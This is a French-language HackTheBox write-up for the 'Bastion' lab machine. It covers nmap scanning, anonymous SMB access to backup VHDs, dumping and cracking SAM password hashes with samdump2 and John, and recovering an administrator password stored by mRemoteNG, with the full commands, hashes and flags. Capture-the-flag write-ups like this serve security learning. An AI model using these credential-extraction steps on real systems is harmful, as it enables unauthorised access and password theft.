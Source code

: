 ```yaml
---
layout: post
title: HackTheBox - Bastion  
---
```


![bastion]({{ site.baseurl }}/images/bastion.png){:class="img-responsive"}

Débutons avec un scan : 

~~~bash
root@kali:~# nmap -p- -Pn -T5 10.10.10.134
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-10 23:42 CEST
Warning: 10.10.10.134 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.134
Host is up (0.066s latency).
Not shown: 63167 closed ports, 2355 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 41.27 seconds
~~~

Et si nous regardions la partie SMB ?  

~~~bash
root@kali:~# nmap -p445 -A 10.10.10.134
...
Host script results:
|_clock-skew: mean: -59m54s, deviation: 1h24m49s, median: -1h59m53s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-06-10T23:50:42+02:00
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-06-10 23:50:41
|_  start_date: 2019-06-09 23:13:05

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   ... 10
11  14.93 ms 10.10.10.134
~~~

En attendant continuons sur l’énumération :

~~~bash
root@kali:~# smbclient -L 10.10.10.134 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
~~~

Un dossier backups vraisemblablement intéressant : 

~~~bash
root@kali:~# smbclient //10.10.10.134/ -N
Try "help" to get a list of possible commands.
smb: \> list
0:	server=10.10.10.134, share=backups
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                               AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                             A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                      D        0  Fri Feb 22 13:44:02 2019

		7735807 blocks of size 4096. 2787024 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0,9 KiloBytes/sec) (average 0,9 KiloBytes/sec)
~~~

Affichons le contenu des fameuses notes : 

~~~bash
root@kali:~# cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
~~~

En gros, nous sommes face à un partage contenant des sauvegardes, voyons voir : 

~~~bash
root@kali:~# smbclient //10.10.10.134/backups -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                               AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                             A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                      D        0  Fri Feb 22 13:44:02 2019

smb: \> cd WindowsImageBackup\
smb: \WindowsImageBackup\> ls
  .                                       D        0  Fri Feb 22 13:44:02 2019
  ..                                      D        0  Fri Feb 22 13:44:02 2019
  L4mpje-PC                               D        0  Fri Feb 22 13:45:32 2019

smb: \WindowsImageBackup\> cd "L4mpje-PC\Backup 2019-02-22 124351\"
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .                                       D        0    Fri Feb 22 13:45:32 2019
  ..                                      D        0    Fri Feb 22 13:45:32 2019
  A.vhd                                   A 37761024    Fri Feb 22 13:44:03 2019
  B.vhd                                   A 5418299392  Fri Feb 22 13:45:32 2019
~~~

Récupérons ces VHD. 

Ils doivent contenir des informations intéressantes, puis montons les : 

~~~bash
root@kali:~# virt-list-partitions b.vhd 
/dev/sda1
root@kali:~# virt-list-partitions a.vhd 
/dev/sda1
root@kali:~# guestmount --add b.vhd  --ro /mnt/b -m /dev/sda1
root@kali:~# ls /mnt/b
'$Recycle.Bin'  'Documents and Settings'   ProgramData     'System Volume Information'
 autoexec.bat    pagefile.sys             'Program Files'   Users
 config.sys      PerfLogs                  Recovery         Windows
~~~

Nous allons dumper la base de données SAM :

~~~bash
root@kali:/mnt/b/Windows/System32/config# samdump2 -o /root/out.sam /mnt/b/Windows/System32/config/SYSTEM /mnt/b/Windows/System32/config/SAM
root@kali:/mnt/b/Windows/System32/config# cat /root/out.sam 

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
~~~
Maintenant cassons la avec John :

~~~bash
root@kali:~# john out.sam -format=nt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (*disabled* Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-06-11 17:26) 2.439g/s 11457Kp/s 11457Kc/s 11463KC/s buresres..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
root@kali:~# john /root/out.sam -format=nt --show 
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
~~~

Connectons-nous via SSH : 

~~~bash
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt 9bfe57d5c3309db3a151772f9d86c6cd 
~~~

En regardant autour de nous, il semble qu'un client mRemoteNG soit installé.
Voyons pour récupérer sa configuration :

~~~bash
root@kali:~# scp -v L4mpje@10.10.10.134:C:/\Users/\L4mpje/\AppData/\Roaming/\mRemoteNG/\confCons.xml mremote.txt
~~~
Depuis une machine virtuelle, importons le fichier `confCons.xml` et extrayons le mot de passe contenu dans les champs. 
Pour cela : 
- Cliquer sur Outils > Outils externes
- Faire un clic droit dans une des case vide du tableau > Nouvel outil externe (Maj + F4)
- Dans nom affiché > `Afficher le mot de passe`
- Dans nom du fichier > `CMD `
- Arguments > `/k echo %password%`
Maintenant depuis la liste de connexions, faire un clic droit sur la connexion qui nous intéresse et cliquer sur Afficher le mot de passe.
Dans notre cas : 

~~~bash
thXLHM96BeKL0ER2
~~~
> Source : http://hackersvanguard.com/mremoteng-insecure-password-storage/

Depuis SSH, tentons d'utiliser le mot de passe trouvé dans mRemoteNG :

~~~bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>whoami 
bastion\administrator 
administrator@BASTION C:\Users\Administrator>type Desktop\root.txt 958850b91811676ed6620a9c430e65c8                     
~~~

We are ROOT !

---
